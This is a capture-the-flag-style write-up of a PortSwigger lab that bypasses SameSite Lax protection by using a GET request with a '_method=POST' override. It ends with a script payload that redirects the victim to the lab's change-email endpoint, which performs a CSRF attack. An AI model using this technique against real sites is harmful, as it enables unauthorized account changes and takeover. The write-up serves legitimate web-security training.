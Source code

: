 
# SameSite Lax bypass via method override

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter

Note: The default SameSite restrictions differ between browsers. As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions




![img](images/SameSite%20Lax%20bypass%20via%20method%20override/1.png)

---------------------------------------------

Chrome sets Lax restriction by default so we must try to execute a GET request that will change the user's email. By default it is a POST request:



![img](images/SameSite%20Lax%20bypass%20via%20method%20override/2.png)


If we change the method to GET and add “\_method” parameter it still works:


![img](images/SameSite%20Lax%20bypass%20via%20method%20override/3.png)

Then we will use this payload:

```
<script>
    document.location = 'https://0a6d00f7038377ec8069495800fd0010.web-security-academy.net/my-account/change-email?email=test4%40test.com&_method=POST';
</script>
```

